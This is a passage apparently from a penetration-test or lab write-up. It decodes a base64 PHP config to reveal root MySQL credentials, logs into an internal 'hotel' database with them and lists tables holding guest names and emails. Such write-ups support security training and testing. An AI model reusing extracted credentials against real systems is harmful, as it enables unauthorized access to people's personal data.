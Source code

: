 ```bash
echo "PD9waHAKICAgIHRyeXsKICAgICAgICAkaG9zdCA9ICdsb2NhbGhvc3QnOwogICAgICAgICRkYl9uYW1lID0gJ2hvdGVsJzsKICAgICAgICAkY2hhcnNldCA9ICd1dGY4JzsKICAgICAgICAkdXNlcm5hbWUgPSAncm9vdCc7CiAgICAgICAgJHBhc3N3b3JkID0gJ05zY05OMzZQR3AzWlZhSEVVeG11TGg2RCc7CgogICAgICAgICRkYiA9IG5ldyBQRE8oIm15c3FsOmhvc3Q9JGhvc3Q7ZGJuYW1lPSRkYl9uYW1lO2NoYXJzZXQ9JGNoYXJzZXQiLCR1c2VybmFtZSwkcGFzc3dvcmQpOwogICAgfSBjYXRjaChQRE9FeGNlcHRpb24gJGUpewogICAgICAgIGVjaG8gIkRhdGFiYXNlIGNvbm5lY3Rpb24gZmFpbGVkOiAiLiRlOwogICAgfQo/PgoKCg==" | base64 -d
```

Decoded to:
```php
<?php
    try{
        $host = 'localhost';
        $db_name = 'hotel';
        $charset = 'utf8';
        $username = 'root';
        $password = 'NscNN36PGp3ZVaHEUxmuLh6D';

        $db = new PDO("mysql:host=$host;dbname=$db_name;charset=$charset",$username,$password);
    } catch(PDOException $e){
        echo "Database connection failed: ".$e;
    }
?>
```

## 6. Accessing the Second Database
### 6.1 Connecting to MySQL
We used the extracted credentials to connect to the MySQL database:

```bash
mysql -h 172.20.4.84 -u root -p'NscNN36PGp3ZVaHEUxmuLh6D' hotel
```

### 6.2 Exploring the Database
```sql
-- List all tables
SHOW TABLES;
-- +-------------------+
-- | Tables_in_hotel   |
-- +-------------------+
-- | reservations      |
-- | settings          |
-- | users             |
-- +-------------------+

-- Check the structure of reservations
DESCRIBE reservations;
-- +----------------+--------------+------+-----+---------+----------------+
-- | Field          | Type         | Null | Key | Default | Extra          |
-- +----------------+--------------+------+-----+---------+----------------+
-- | id             | int          | NO   | PRI | NULL    | auto_increment |
-- | name           | text         | NO   |     | NULL    |                |
-- | email          | text         | NO   |     | NULL    |                |
-- | date_from      | date         | NO   |     | NULL    |                |
-- | date_to        | date         | NO   |     | NULL    |                |
-- | guest_count    | int          | NO   |     | NULL    |                |
-- | children_count | int          | NO   |     | NULL    |                |
-- | room_number    | varchar(100) | NO   |     | NULL    |                |
-- +----------------+--------------+------+-----+---------+----------------+
```
